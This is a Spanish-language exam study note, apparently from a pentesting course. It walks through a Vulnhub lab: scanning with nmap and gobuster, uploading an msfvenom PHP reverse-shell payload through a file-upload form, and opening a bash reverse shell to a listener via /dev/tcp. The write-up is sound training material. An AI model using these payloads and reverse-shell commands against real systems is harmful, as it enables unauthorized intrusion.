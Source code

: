 
---
- TAG: #Explotación #Vulnerabilidades #Carga #Archivos 
---
# Creación de un Payload Malicioso en PHP y Explotación de Subida de Archivos

En este apartado vamos a estar viendo cómo crear un payload malicioso con extensión `.php` y cómo aprovechar la subida de archivos maliciosos dentro de una página web para poder obtener intrusión remota a la máquina, que es algo que cae en el examen.

Para esto vamos a necesitar:
1. Una máquina **Kali Linux**.
2. Máquina vulnerable de **Vulnhub** [Máquina SECTALKS: BNE0X03 - SIMPLE](https://www.vulnhub.com/entry/sectalks-bne0x03-simple%2C141/).

Realizamos la extracción y configuración de la máquina, que ya saben que por defecto debe estar en adaptador puente para que haya conexión entre máquinas.

Iniciamos la máquina **Simple**.

Una vez iniciada, vamos a nuestra máquina **Kali Linux** y realizamos el correcto procedimiento:
1. `arp-scan` para localizar la máquina víctima.
2. `ping` para ver el tipo de ttl y ver a qué nos enfrentamos.
3. `nmap` para encontrar vulnerabilidades y puertos abiertos:
   ```bash
   nmap -p- -sS -sC -sV --open --min-rate=5000 -n -Pn -vvv 1.2.3.4 -oN escaneo
   ```

Veremos que tenemos el puerto 80 abierto con el protocolo http, así que nos dirigimos al navegador para ver su contenido.

Nos encontramos con una página interesante de Login, con la opción de subir archivos. Este bloc es precisamente para hablar sobre ese tema, para saber cómo explotar este tipo de vulnerabilidades con archivos maliciosos.

Empezamos creando nuestro usuario y contraseña, en register.

Una vez dentro del panel con usuario y contraseña creado, siempre les recomiendo revisar información del nombre de la web. Por ejemplo, en este caso vemos el nombre de **Cutenews dashboard**. Este nombre lo podemos buscar con **Metasploit** para saber si existe una vulnerabilidad para este tipo de páginas web:
```msfconsole
msfconsole
msf6 > search Cutenews
```

Pero esta vez no va por ahí la intrusión, pero en el examen sí que es importante utilizarlo si encontramos un nombre o una marca.

Si en el examen encontramos una página web y vemos que nos da opciones de subir archivos, ya que esto nos permitirá un fácil acceso a la máquina.

Cuando nos encontremos en un escenario así, vamos a necesitar 2 cosas:
- Crear el archivo malicioso con `msfvenom`.
- Encontrar la ubicación donde se almacenen aquellos archivos que se suban desde el botón de subir.

Para encontrar la ubicación web donde se alojen estos archivos, lo podemos hacer con **Fuzzing**.

Explicado esto, empezamos creando nuestro payload malicioso con msfvenom:
```bash
msfvenom -p php/reverse_php LHOST=1.2.3.4 LPORT=443 -f raw > pwned.php
```

Una vez creado el payload malicioso, lo cargamos dentro de la página web.

Guardamos los cambios y vemos que se guardan efectivamente los cambios.

Ahora lo que necesitamos es averiguar dónde se guardó ese fichero, ya que nuestra intención es localizar el archivo para poderlo ejecutar y adquirir acceso a la máquina.

Es ahora donde entra en juego el **fuzzing web**.

Utilizamos la herramienta de gobuster para localizar directorios web. Para ello, recuerden utilizar el diccionario `/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`:
```bash
gobuster dir -u http://1.2.3.4/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Aplicando esto, veremos que nos indica ciertos directorios interesantes como el de **uploads**.

Así que nos dirigimos al navegador y buscamos con el dominio encontrado a ver qué nos refleja. Efectivamente, nos muestra el archivo malicioso que habíamos creado asignado con nuestra dirección IP de atacante Kali Linux.

Ahora, para obtener acceso a la máquina, tenemos que ponernos a la escucha por el puerto 443 con **netcat**:
```bash
nc -nlvp 443
```

Ahora nos dirigimos al directorio `http://1.2.3.4/uploads/`.

Le damos clic al archivo que hemos cargado y listo, obtendremos acceso a la máquina.

Recuerden que el payload en msfvenom suele funcionar mal ya que, al pasar el tiempo, se suele perder la conexión.

Para solucionar eso, podemos hacer lo siguiente:

Haremos una reverse shell y, para ello, primero debemos ponernos a la escucha por otro puerto diferente:
```bash
nc -nlvp 4444
```

Y desde aquí recibimos la reverse shell.

Para ello, tenemos la ayuda de esta página web [devshells](https://www.devshells.com), que nos ayuda creando el payload `sh -i >& /dev/tcp/1.2.3.4/4444 0>&1` y lo pegamos en la conexión que tenemos con netcat por el puerto 433:
```bash
nc -nlvp 443
bash -c "sh -i >& /dev/tcp/1.2.3.4/4444 0>&1"
```

Y en otra terminal, abrimos el puerto **4444** que se encuentra abierto y veremos que recibimos la conexión.

Recuerden hacerlo fuera del examen el ingreso a la página web para la creación de la shell ya que, dentro del examen, no hay internet.

Así es como podemos ganar acceso a una página web con la vulnerabilidad de subir archivos y acceder a ella desde otra ubicación.

Cuando podemos hacer eso, significa que podemos conseguir intrusión a la máquina víctima.

Esto es algo que sí o sí entra en el examen, así que practiquen mucho con este tema.


